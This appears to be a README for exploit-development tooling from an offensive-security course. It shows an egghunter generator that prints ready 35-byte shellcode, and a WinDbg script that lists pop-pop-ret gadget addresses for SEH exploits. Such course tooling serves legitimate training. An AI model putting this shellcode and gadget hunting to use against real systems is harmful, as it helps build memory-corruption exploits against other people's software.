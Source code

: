 # osed-scripts
bespoke tooling for offensive security's Windows Usermode Exploit Dev course (OSED)

## Standalone Scripts

### egghunter.py

requires [keystone-engine](https://github.com/keystone-engine/keystone)

 

```
usage: egghunter.py [-h] [-t TAG] [-b BAD_CHARS [BAD_CHARS ...]]

Creates an egghunter compatible with the OSED lab VM

optional arguments:
  -h, --help            show this help message and exit
  -t TAG, --tag TAG     tag for which the egghunter will search (default: c0d3)
  -b BAD_CHARS [BAD_CHARS ...], --bad-chars BAD_CHARS [BAD_CHARS ...]
                        space separated list of bad chars to check for in final egghunter (default: 00)
```                        

generate default egghunter
```
./egghunter.py 
egghunter = b"\x66\x81\xca\xff\x0f\x42\x52\x31\xc0\x66\x05\xc6\x01\xcd\x2e\x3c\x05\x5a\x74\xec\xb8\x63\x30\x64\x33\x89\xd7\xaf\x75\xe7\xaf\x75\xe4\xff\xe7"
egghunter created:
  len: 35 bytes
  tag: c0d3c0d3
```

generate egghunter with `w00tw00t` tag
```
./egghunter.py --tag w00t
egghunter = b"\x66\x81\xca\xff\x0f\x42\x52\x31\xc0\x66\x05\xc6\x01\xcd\x2e\x3c\x05\x5a\x74\xec\xb8\x77\x30\x30\x74\x89\xd7\xaf\x75\xe7\xaf\x75\xe4\xff\xe7"
egghunter created:
  len: 35 bytes
  tag: w00tw00t
```

generate egghunter while checking for bad characters (does not alter the shellcode, that's to be done manually)
```
./egghunter.py -b 00 0a 25 26 3d
egghunter = b"\x66\x81\xca\xff\x0f\x42\x52\x31\xc0\x66\x05\xc6\x01\xcd\x2e\x3c\x05\x5a\x74\xec\xb8\x63\x30\x64\x33\x89\xd7\xaf\x75\xe7\xaf\x75\xe4\xff\xe7"
egghunter created:
  len: 35 bytes
  tag: c0d3c0d3
```

## WinDbg Scripts

all windbg scripts require `pykd`

run `.load pykd` then `!py c:\path\to\this\repo\script.py` 

### find-ppr.py

Search for `pop r32; pop r32; ret` instructions by module name

```
!py find-ppr.py libspp diskpls

[+] diskpls::0x004313ad: pop ecx; pop ecx; ret
[+] diskpls::0x004313e3: pop ecx; pop ecx; ret
[+] diskpls::0x00417af6: pop ebx; pop ecx; ret
...
[+] libspp::0x1008a538: pop ebx; pop ecx; ret
[+] libspp::0x1008ae39: pop ebx; pop ecx; ret
[+] libspp::0x1008aebf: pop ebx; pop ecx; ret
...
```
